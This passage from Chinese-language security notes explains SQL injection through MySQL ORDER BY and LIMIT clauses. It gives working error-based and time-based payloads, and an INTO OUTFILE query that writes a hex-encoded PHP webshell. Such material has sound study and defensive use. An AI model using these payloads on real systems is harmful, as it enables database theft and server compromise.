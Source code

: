 order by注入检测 - 基于报错的注入
```
# 报错方式1
mysql> select aid,adenname from sea_myad order by updatexml(1,if(1=1,user(),2),1);
ERROR 1105 (HY000): XPATH syntax error: '@localhost'

# 报错方式2
mysql> select aid,adenname from sea_myad order by extractvalue(1,if(1=1,user(),2));
ERROR 1105 (HY000): XPATH syntax error: '@localhost'
```

order by注入检测 - 基于时间的注入
```
# 有几条记录 就延时几秒
# 记录很多的情况下 不能使用这种方式
mysql> select aid,adenname from sea_myad order by if(1=1,sleep(1),2);
```


#### 无法使用"预编译语句"的情况 - `limit`子句

* MySQL的`limit`子句注入
  * 漏洞场景 - MySQL中 当`order by`之后跟了`LIMIT`即二者一起使用时,注入点在`limit`子句之后的位置,该场景无法使用`union`语句进行联合查询.
  * 实际案例 - `SELECT freld FROM table WHERE id>0 ORDER BY id LIMIT injection_point`
  * 利用条件 -  5.0.0<MySQL版本<5.6.6   (MySQL版本>=5.7 无法利用. 因为`analyse()`的两个参数都只能为`uint`类型)

```
# MySQL limit子句注入 利用方式1 - 基于报错的注入
# limit之后可以跟`analyse()`函数
# 报错函数 extractvalue()等

mysql> SELECT field FROM user WHERE id >0 ORDER BY id LIMIT 1,1
       procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);
ERROR 1105 (HY000): XPATH syntax error: ':5.5.41-0ubuntu0.14.04.1'
```

```
# MySQL limit子句注入 利用方式2 - 基于时间的注入
# limit之后可以跟`analyse()`函数
# 延时函数 实测只能用`benchmark` 而不能用`sleep`

SELECT field FROM table WHERE id > 0 ORDER BY id LIMIT 1,1
PROCEDURE analyse((select extractvalue(rand(),
concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1)
```

```
# MySQL limit子句注入 利用方式3 - 写入文件
# 如果权限足够 可在`limit`之后跟`into`写入文件 得到webshell

# Hex <-> ASCII
# 3c3f7068702061737365727428245f504f53545b6173617361735d293b3f3e <-> <?php assert($_POST[asasas]);?>

SELECT 1 from mysql.user order by 1 limit 0,1 into outfile '/tmp/s.php' LINES TERMINATED BY 0x3c3f7068702061737365727428245f504f53545b6173617361735d293b3f3e;
```
